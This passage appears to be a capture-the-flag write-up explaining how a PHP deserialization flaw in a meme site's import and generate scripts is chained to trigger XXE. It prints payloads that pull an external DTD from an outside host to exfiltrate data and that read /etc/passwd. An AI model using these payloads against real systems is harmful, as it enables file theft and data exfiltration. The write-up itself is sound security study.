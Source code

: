```
class ConfigFile {
    ...
}

$test = new ConfigFile("asdf");
$test->config_raw = '<?xml version="1.0" ?><!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY % sp SYSTEM "https://xss.buer.haus/ev.xml">%sp;%param1;]><r>&exfil;</r>';

echo base64_encode(serialize($test));
```

The next step was uploading it using the import_memes script:
 * https://h1-5411.h1ctf.com/import_memes_2.0.php

{F351670}

No dice. We run into a warning saying we cannot array_merge an array and an object. It makes sense, looking back on the code in /includes/config.php we can see that $_SESSION[“memes”] is an array() and gets strings stored in it.
```
  // Start/Resume session
  session_start();

  // Setup session
  if (!isset($_SESSION['memes'])) {
    $_SESSION['memes'] = array();
  }
```

So in order for our object to get stored into the $_SESSION[“memes”], we have to wrap the serialized object in an array. That complicates things because the only way we found to exploit the toString() method was that the $_SESSION[“memes”] was echo’d on the export script. That means we needed to find a new way for it to execute the toString magic method.

Lucky for us, we discovered this in the generate.php file.

```
        foreach($_SESSION['memes'] as $meme) {
      ?>
        <iframe width="100%" height="450" frameborder="0"
                src="<?php echo htmlentities($meme); ?>"></iframe>
      <?php
        }
      }
      ?>
```



As you can see in the code, it loops through all the items in the $_SESSION[“meme”] array and displays them via echo. When it hits our object stored in the array, it’ll trigger toString() and thus eventually execute our XXE payload.

Here is an example of loading file:///etc/passwd using the XXE payload:

```
class ConfigFile {
    ...
}

$test = new ConfigFile("asdf");
$test->config_raw = '<?xml version="1.0"?><!DOCTYPE root[<!ENTITY foo SYSTEM "file:///etc/passwd">]><test><toptext>dddrrr &foo;</toptext></test>';

echo base64_encode(serialize(array($test)));
```
